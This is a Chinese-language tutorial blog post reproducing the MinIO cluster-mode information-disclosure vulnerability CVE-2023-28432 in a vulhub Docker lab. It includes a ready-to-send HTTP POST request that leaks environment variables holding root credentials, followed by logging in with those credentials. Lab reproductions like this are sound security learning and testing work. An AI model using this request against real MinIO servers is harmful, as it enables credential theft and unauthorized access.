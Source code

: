 # 原创
：  MinIO集群模式信息泄露漏洞（CVE-2023-28432）vulhub漏洞复现

# MinIO集群模式信息泄露漏洞（CVE-2023-28432）vulhub漏洞复现

**MinIO是一个开源对象存储系统。在其RELEASE.2023-03-20T20-16-18Z版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。**

漏洞复现：

`cd minio`

`cd CVE-2023-28432/`

`docker-compose up -d`

访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f56d188cd6f74841b2598b66a49a8923.png"/>

漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上

启动burpsuite抓包。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/998baa3e320a4cb1b41b5c34560382e6.png"/>

发送如下数据包可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 192.168.126.128:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

利用泄露的MINIO_ROOT_USER 和MINIO_ROOT_PASSWORD 值登录系统

